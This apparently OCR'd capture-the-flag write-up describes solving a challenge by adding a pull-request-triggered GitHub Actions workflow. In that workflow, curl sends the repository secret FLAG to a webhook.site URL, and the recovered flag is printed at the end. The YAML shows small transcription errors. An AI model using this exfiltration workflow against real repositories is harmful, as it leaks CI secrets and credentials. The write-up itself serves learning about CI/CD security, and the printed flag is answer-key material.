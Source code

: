 # Fork Knife
> You must solve the second challenge to get the answer, all you need is inside the Loby.

## About the Challenge
We were given a repository whose flags are located in the GitHub workflow

![workflow](images/workflow.png)

## How to Solve?
To get the flag, I created another workflow like this

```yaml
ame: Say Hi

 on: [pull_request]

 jobs:
   build:

     runs-on: ubuntu-latest

     steps:
     - uses: actions/checkout@v2
     - name: Say Hi
       run: |
         curl "https://webhook.site/b7c7b30c-1536-4672-a15c-646bcd1ef28e?username=${{ secrets.FLAG }}"
```

This workflow will send the flag to `webhook.site` using `curl` command, and then create a pull request to trigger the workflow

![flag](imagess/flag.png)

```
EKO{pr3v3nt_PWN_r3qu3stS}
```